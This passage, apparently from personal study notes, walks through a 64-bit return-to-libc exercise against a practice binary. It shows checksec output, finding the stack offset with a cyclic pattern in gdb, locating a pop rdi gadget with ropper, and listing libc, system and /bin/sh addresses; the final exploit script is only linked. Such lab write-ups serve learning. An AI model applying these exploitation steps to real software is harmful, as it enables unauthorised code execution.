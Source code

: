 [[Binary Exploitation/06 return to libc/x64/Source Code|Source Code]] 

### Basic File Checks

1. File -> `./secureserver: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f890ad80b62339e815e93e095690235d1466bfbb, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/06/64/secureserver'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Manual Work

Now in 64 bit when we call the system function it looks in the RDI for the string which in our case is /bin/sh so we must find a pop_rdi gadget

But before that let's look for the offset

```python
cyclic 100
gdb-pwndb ./secureserver
```

```python
*RAX  0x7fffffffdca0 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
*RBX  0x7fffffffde08 —▸ 0x7fffffffe1a9 ◂— '/root/binary_exploitation/06/64/secureserver'
*RCX  0x7ffff7f9ba80 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RDX  0x1
*RDI  0x7ffff7f9da20 (_IO_stdfile_0_lock) ◂— 0x0
*RSI  0x1
*R8   0x405715 ◂— 0x0
 R9   0x0
*R10  0x1000
*R11  0x246
 R12  0x0
*R13  0x7fffffffde18 —▸ 0x7fffffffe1d6 ◂— 0x5245545f5353454c ('LESS_TER')
 R14  0x0
*R15  0x7ffff7ffd020 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdce8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401179 (receive_feedback+39) ◂— ret
```

The offset: `72`

```python
ropper --file ./secureserver --search=pop
```

Result:

```python
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./secureserver
0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000401206: pop r13; pop r14; pop r15; ret;
0x0000000000401208: pop r14; pop r15; ret;
0x000000000040120a: pop r15; ret;
0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000401207: pop rbp; pop r14; pop r15; ret;
0x0000000000401139: pop rbp; ret;
0x000000000040120b: pop rdi; ret;
0x0000000000401209: pop rsi; pop r15; ret;
0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret;
```

Pop_rdi: `0x40120b`

Now we need to find the address of the libc, system and /bin/sh

We can find it the same way as in 32 bit

[[Binary Exploitation/06 return to libc/x86/Main#^5a9d22|libc]]
[[Binary Exploitation/06 return to libc/x86/Main#^a65e5c|System]]
[[Binary Exploitation/06 return to libc/x86/Main#^52a3ac|/bin/sh]]

libc: `0x00007ffff7dc9000`
system: `0x4c330`
/bin/sh: `0x196031`

Now let's create the python script
[[Binary Exploitation/06 return to libc/x64/Python Script|Python Script]]